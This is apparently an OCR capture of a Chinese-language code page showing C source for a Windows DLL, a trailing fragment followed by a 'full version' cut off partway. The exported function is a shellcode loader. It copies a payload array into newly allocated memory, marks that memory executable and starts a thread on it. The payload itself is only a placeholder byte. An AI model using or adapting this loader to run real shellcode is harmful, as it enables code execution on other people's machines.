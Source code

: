 ```
    }

    printf("\n\nalloc_mem : %p\n", alloc_mem);
    WaitForSingleObject(tHandle, INFINITE);

    return 0;


    return TRUE;
    }
}
```
完整版：
```
#include <windows.h>
#include <stdio.h>

#pragma comment (lib, "user32.lib")

BOOL APIENTRY DLLMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){

    switch (ul_reason_for_call){
    case DLL_PROCESS_ATTACH:
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}

extern "C"{
__declspec(dllexport) BOOL WINAPI HelloWorld(void){

    MessageBox(NULL, "Welcome", "Security", MB_OK);

    unsigned char payload[] = "\x00";


    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    if (!alloc_mem) {
        printf("Failed to Allocate memory (%u)\n", GetLastError());
        return -1;
    }
    
    MoveMemory(alloc_mem, payload, sizeof(payload));

    DWORD oldProtect;

    if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
        printf("Failed to change memory protection (%u)\n", GetLastError());
        return -2;
    }


    HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
    if (!tHandle) {
        printf("Failed to Create the thread (%u)\n", GetLastError());
        return -3;
    }

```